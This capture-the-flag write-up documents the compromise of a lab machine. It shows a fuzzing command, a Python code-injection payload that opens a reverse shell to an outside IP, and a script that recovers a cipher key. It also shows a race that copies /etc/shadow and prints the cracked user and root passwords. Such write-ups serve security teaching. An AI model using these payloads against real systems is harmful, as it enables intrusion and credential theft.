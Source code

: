 ![](./logo.png)

Running our normal emum shows a `http` server on port 8080.

Looking over the website we have the description:

```
Message to server devs: the current source code for the web server is in 'SuperSecureServer.py' in the secret development directory
```

The conventional `gobuster`/`dirbuster` didn't work in this situation.

As I do not want to guess to directory I'm going to use a lightweight fuzzing tool called [ffuf](https://github.com/ffuf/ffuf).

The command below will find our directory:
```
./fuff -c -w ~/GitHub/Pentesting_Tools/Wordlists/DirBusting/directory-list-2.3-medium.txt -u http://10.10.10.168:8080/FUZZ/SuperSecureServer.py
```

This shows us a `/develop` endpoint that allows us to access the `python` code.



The vulnerability can be seen in the code below:
```python
info = "output = 'Document: {}'" # Keep the output for later debug
exec(info.format(path)) # This is how you do string formatting, right?
```

This will let us run our own `python` code with a command injection.

Below is the format for the exploit:
```
';<CMD>;'
```

This works because when the string is formatted it looks like so:
```python
output = 'Document: '; <CMD> ; ''
```

Effectively creating three commands. This lets us inject any code we like.


Below is the reverse shell exploit:
```
http://10.10.10.168:8080/';import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.80",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

This lets us spawn a shell as `www-data`!

When we get on the box we have a number of files in `/home/robert`


One of them is `SuperSecureCrypt.py`. This is accompanied by two files:

`check.txt`
```
Encrypting this file with your key should result in out.txt, make sure your key is correct! 
```

And `out.txt`:
```
¦ÚÈêÚÞØÛÝÝ×ÐÊßÞÊÚÉæßÝËÚÛÚêÙÉëéÑÒÝÍÐêÆáÙÞãÒÑÐáÙ¦ÕæØãÊÎÍßÚêÆÝáäèÎÍÚÎëÑÓäáÛÌ×v
```

This is then encrypted using this code:
```python
def encrypt(text, key):
    keylen = len(key)
    keyPos = 0
    encrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr + ord(keyChr)) % 255)
        encrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return encrypted
```

The insecure element is here:
```python
newChr = chr((newChr + ord(keyChr)) % 255)
```

This is insecure because if the password is all printable ascii (`< 127`) and the key is also printable it will result in the
mod operation (`%`) never affecting the value.

```python
ord('z') + ord('z') = 244
```

This means to decrypt all we need to do is just take off the original values from the output. Below is a script that exploits this:

```python
if __name__ == "__main__":
    
    checkData = None
    with open("./check.txt") as f:
        checkData = f.read()

    outData = None
    with open("./out.txt") as f:
        outData = f.read()

    for i, x in enumerate(checkData):

        c = checkData[i]
        o = outData[i]

        keyChar = chr((ord(o) - ord(c)) % 255)

        print(keyChar, end="")
    print()
```

This produces the key:
```
alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichal
```

This can then be used to decrypt a `passwordreminder.txt` text file present in the `/home` directory.

This gives us the password for the user `robert`
```
robert:SecThruObsFTW
```

This lets us logon via `ssh` and grab the `user.txt`.

# ROOT

Running our usual enum script shows us that `robert` may run the command below:
```
User robert may run the following commands on obscure:
    (ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```

Inspecting the `BetterSSH.py` shows that it opens the `/etc/shadow` file and saves it in a 
temporary random directory:

```python
with open('/tmp/SSH/'+path, 'w') as f:
        f.write(passwordFile)
    time.sleep(.1)
```

This will contain all of the password hashes for the users! However, this is deleted very quickly, so I cannot be manually copied.

The exploit therefore will be to run a copy script over and over until it copies out the newly created file:
```
watch -n 0.1 cp -r ./* ..
```

This will copy the file out and allow us to grab the password hash below:
```
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
```

After quickly cracking the hash, it gives us the password for the `root` user.
```
root:mercedes
```

This lets us log on using the `BetterSSH.py` client as `root`. This lets us grab the `root.txt`!